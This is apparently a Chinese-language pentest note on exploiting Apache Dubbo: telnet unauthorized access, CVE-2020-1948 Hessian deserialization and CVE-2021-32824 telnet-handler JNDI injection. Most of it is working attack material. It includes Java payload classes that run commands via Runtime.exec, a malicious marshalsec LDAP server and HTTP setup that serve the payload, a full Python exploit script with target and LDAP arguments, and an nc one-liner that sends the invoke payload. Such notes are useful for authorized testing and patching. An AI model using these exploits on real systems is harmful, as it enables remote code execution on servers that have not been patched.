

Dubbo
目录
阿里巴巴开源的java RPC框架，和RMI是一种类型的框架。

telnet
nmap探测端口
记得用-sV参数，才会探测指纹
Alibaba Dubbo remoting telnetd是Dubbo框架中的一个组件，它提供了通过telnet命令进行服务治理的功能。从Dubbo 2.0.5版本开始，Dubbo开始支持通过telnet命令来进行服务治理。
telnet 未授权访问
telnet ip host
命令手册：https://cn.dubbo.apache.org/zh-cn/docs/references/telnet/
但容易遇到被拦。 因为需要添加配置
需要在dubbo provider中配置：
dubbo.provider.telnet = ls,ps,cd,pwd,trace,count,invoke,select,status,log,help,clear,exit,shutdown
ls,ps,cd,pwd,trace,count,invoke,select,status,log,help,clear,exit,shutdown为需要启用的telnet指令，按需添加即可
cve-2020-1948
“好像不用知道consumer的名称就能直接开打，具体是怎样还得调代码，咕咕“
如果系统开启了dubbo端口（如1.2.3.4:12345），攻击者使用python模拟dubbo通信协议发送rpc请求，数据包含带有无法识别的服务名称service_nam或方法名称method_name，及恶意参数（JdbcRowSetImpl等），在反序列化这些恶意参数时便会触发JNDI注入，导致执行任意恶意代码。
因此攻击难度较低，但攻击危害很大。
Versions Affected:
Dubbo 2.7.0 to 2.7.6
Dubbo 2.6.0 to 2.6.7
Dubbo all 2.5.x versions (not supported by official team any longer)
1.编写exp.java，用dnslog检测
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;
public class exp {
public exp(){
try {
java.lang.Runtime.getRuntime().exec("ping tt.d3f051053d.ipv6.1433.eu.org");
} catch (java.io.IOException e) {
e.printStackTrace();
}
}
}
2.编译java，得到exp.class
javac exp.java
3.下载marshalsec并编译成jar，https://github.com/mbechler/marshalsec
4.用python起一个http服务，并把exp.class放到http目录下
python -m SimpleHTTPServer 80
5.用marshalsec开启ldap
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.31.153/#exp 777
6.python安装dubbo库
pip3 install dubbo-py
7.攻击脚本
# -*- coding: utf-8 -*-
import sys
from dubbo.codec.hessian2 import Decoder,new_object
from dubbo.client import DubboClient
if len(sys.argv) < 4:
print('Usage: python {} DUBBO_HOST DUBBO_PORT LDAP_URL'.format(sys.argv[0]))
print('\nExample:\n\n- python {} 1.1.1.1 12345 ldap://1.1.1.6:80/exp'.format(sys.argv[0]))
sys.exit()
client = DubboClient(sys.argv[1], int(sys.argv[2]))
JdbcRowSetImpl=new_object(
'com.sun.rowset.JdbcRowSetImpl',
dataSource=sys.argv[3],
strMatchColumns=["foo"]
)
JdbcRowSetImplClass=new_object(
'java.lang.Class',
name="com.sun.rowset.JdbcRowSetImpl",
)
toStringBean=new_object(
'com.rometools.rome.feed.impl.ToStringBean',
beanClass=JdbcRowSetImplClass,
obj=JdbcRowSetImpl
)
resp = client.send_request_and_return_response(
service_name='org.apache.dubbo.spring.boot.sample.consumer.DemoService',
# 此处可以是 $invoke、$invokeSync、$echo 等，通杀 2.7.7 及 CVE 公布的所有版本。
method_name='$invoke',
args=[toStringBean])
output = str(resp)
if 'Fail to decode request due to: RpcInvocation' in output:
print('[!] Target maybe not support deserialization.')
elif 'EXCEPTION: Could not complete class com.sun.rowset.JdbcRowSetImpl.toString()' in output:
print('[+] Succeed.')
else:
print('[!] Output:')
print(output)
print('[!] Target maybe not use dubbo-remoting library.')
python3 Dubbo.py 192.168.137.173 12345 ldap://139.9.198.30:777/calc
Apache Dubbo Telnet handler 代码执行（CVE-2021-32824）
"前提，telnet能执行命令，且要知道dubbo 的一个provider类以及其方法和参数个数，如下例子便是调用了一个三参数的方法“
telnet连上，能执行命令直接干
invoke [provider_interface].[method_name]({'class':'org.apache.xbean.propertyeditor.JndiConverter','asText':'ldap://{dns_log}/#FoolBoy'},'test','test'})
具体操作
1.Exploit.java，编译，并把class放到http服务目录
public class Exploit {
public Exploit(){
try{
Runtime.getRuntime().exec("/bin/bash -c /System/Applications/Calculator.app/Contents/MacOS/Calculator");
}catch(Exception e){
e.printStackTrace();
}
}
public static void main(String[] argv){
Exploit e = new Exploit();
}
}
javac Exploit.java
python3 -m http.server 8080
2.marshalsec起一个恶意ldap 服务器
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8080/#Exploit"
3连上telnet直接开干
echo "invoke org.apache.dubbo.samples.basic.api.DemoService.sayHello({'class':'org.apache.xbean.propertyeditor.JndiConverter','asText': 'ldap://127.0.0.1:1389/Exploit'})" | nc -i 1 127.0.0.1 20880